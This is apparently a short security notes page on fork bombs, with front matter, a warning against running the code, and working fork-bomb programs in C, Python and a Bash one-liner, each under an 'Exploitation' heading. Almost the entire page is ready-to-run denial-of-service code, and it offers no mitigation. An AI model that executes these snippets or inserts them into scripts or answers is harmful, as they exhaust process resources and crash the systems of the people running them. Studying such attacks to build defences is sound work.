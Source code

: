 ```yaml
---
title: Fork Bomb
description: Fork Bomb is one of the denial-of-service attacks which lead the system to deplete the available resources by replicating a child process infinitely.
tags:
    - Linux
refs:
    - https://www.geeksforgeeks.org/zombie-processes-prevention/?ref=ml_lbp
    - https://www.imperva.com/learn/ddos/fork-bomb/
date: 2023-07-24
draft: false
---
```


### Warning

**Please don’t execute the following programs in system that you don’t want to harm.**

## Exploitation in C

This program forks child processes continuously.

```c
#include <stdio.h>
#include <sys/types.h>

int main()
{
	while (1)
		// Create a child process from the parent process.
		fork();
	return 0;
}
```

## Exploitation in Python

```python
import os

while True:
	os.fork()
```

## Exploitation in Bash

```bash
:(){ :|: & };:
```
